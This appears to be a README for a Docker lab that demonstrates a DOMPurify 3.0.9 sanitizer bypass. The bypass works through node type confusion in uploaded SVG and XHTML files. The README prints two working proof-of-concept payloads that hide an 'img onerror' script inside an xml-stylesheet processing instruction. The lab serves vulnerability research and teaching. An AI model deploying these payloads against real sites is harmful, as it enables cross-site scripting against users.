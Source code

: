 # Dompurify 3.0.9 bypass - Node type confusion

__Read this in other languages:__ [English](README.md), [Français](README.fr.md)

Link to the full article (in french) : https://sharpforce.gitbook.io/cybersecurity/mes-articles/2024/mai/dompurify-3.0.9-bypass-node-type-confusion

## Installation

```
docker build -t dompurify-3.0.9-bypass .
docker run -p 3000:3000 dompurify-3.0.9-bypass
```

![image](https://github.com/Sharpforce/cybersecurity-code/assets/6013418/75be9d65-91ce-4fc4-b561-9c6be3699627)

## Description

The application allows uploading files in HTML, SVG, or XHTML format, but accessing these files, although possible, is restricted by a CSP policy. However, including such a file, sanitized by Dompurify, within the main page, enables bypass exploitation and execution of JavaScript code.

## Exploitation

### HTML file

The vulnerability is exploitable only when the node is of XML type. Including an HTML file confirms the proper sanitization by Dompurify when the node is of HTML type.

### SVG file

The following SVG file allows bypass exploitation:
```
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd">
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
  <rect width="50" height="50" fill="green" />
  <?xml-stylesheet > <img src=x onerror="alert(1)"> ?>
</svg>
```

### XHTML file

The following XHTML file allows bypass exploitation:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <title>Exemple de document XHTML</title>
</head>
<body>
    <h1>Document XHTML</h1>
    <p>Exploitation of Dompurify 3.0.9.</p>
    <?xml-stylesheet > <img src=x onerror="alert(1)"> ?>
</body>
</html>
```

